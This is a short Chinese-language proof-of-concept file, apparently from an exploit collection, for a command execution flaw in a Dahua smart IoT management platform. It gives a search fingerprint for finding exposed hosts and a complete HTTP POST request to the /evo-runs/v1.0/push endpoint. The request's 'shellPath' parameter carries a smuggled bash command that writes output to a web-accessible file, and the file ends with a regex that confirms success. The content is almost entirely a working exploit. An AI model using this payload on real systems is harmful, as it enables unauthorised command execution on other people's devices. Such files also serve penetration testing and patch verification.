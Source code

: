 # dahua智能物联网综合管理平台push命令执行漏洞

## 漏洞特征

body="static/qwebchannel.js" && body="/*客户端会小于800*/"

## POC

```
POST /evo-runs/v1.0/push HTTP/1.1
Content-Type: application/json
X-Subject-Headerflag: ADAPT

{
    "method": "agent.ossm.mapping.config",
    "info": {
        "configure": "xxx",
        "filePath": "xxx",
        "paramMap": {
            "shellPath": "/bin/bash -c 'id>/opt/evoWpms/static/xxx.txt'",
            "filePath": "xxx"
        },
        "requestIp": ""
    }
}
```

## 响应特征

```
200

(?=.*?success)(?=.*?true).*?$
```



## 文件定位

/static/xxx.txt
